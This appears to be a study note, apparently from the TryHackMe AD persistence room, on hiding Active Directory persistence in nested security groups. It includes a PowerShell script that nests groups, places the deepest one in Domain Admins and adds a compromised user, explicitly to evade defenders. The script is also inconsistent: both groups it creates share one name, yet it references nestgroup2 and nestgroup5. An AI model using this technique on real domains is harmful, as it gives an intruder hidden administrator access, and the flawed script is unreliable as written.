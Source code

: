 
The simple addition of accounts to AD groups see: [[Active-Directory-Default-Security-Groups-Table]]. For secure, long term stability in persistence privilege groups are monitored more closely and receive additional security scrutiny. To persist through group membership:
-  IT Support group can be used to gain privileges such as force changing user passwords of non privileged users
	- Allows for compromisation creep spread through the userbase
- Groups that provide local administrator rights are often not monitored as closely as protected groups.
	- Used to return to compromise the domain again
- Groups with indirect privilege
	- Ownership over Group Policy Objects (GPOs)

## Nesting Persistence in Nested Grouped

In most organisations, there are a significant amount of recursive groups(a group that is member of another group), which provide more organised structure. Although this came come with itself own complexity creep and it does reduces the visibility of effective access. If Group X is a member of Y and Z, where X-A, X-B and X-C are a sub group of X, but the terminal or GUI output does not show the recursive group nesting of Y. We would have know or enumerate as either attacker or defender or system administrator that the group relationships and membership existed. Making alerts that set off that member was added to group X will not alert unless that alert also includes the **X and its subgroups**. Attackers can leverage this reduced visibility to perform persistence, focusing on subgrouping to access the environment.

This can be done repeatly create more nesting. Consider the contextual need or how it interelate to the structuing of the organisation for most stealth.
```powershell
# Create a new base group that will hde the People->IT OU
New-ADGroup -Path "OU=IT,OU=People,DC=$workgroup,DC=$domain,DC=$local" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
# Create a second group in People->Sale OU 
New-ADGroup -Path "OU=SALES,OU=People,DC=$workgroup,DC=$domain,DC=$local" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
# Add the first group to the second group
Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
# Repeat till nesting is atleast as deep enough that the Blue Team thinks that they have digging in the mines of Moria
# Add the most hidden in the nesting of groups to the Domain Admins group
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
# Add compromised low privileged user
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```


## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)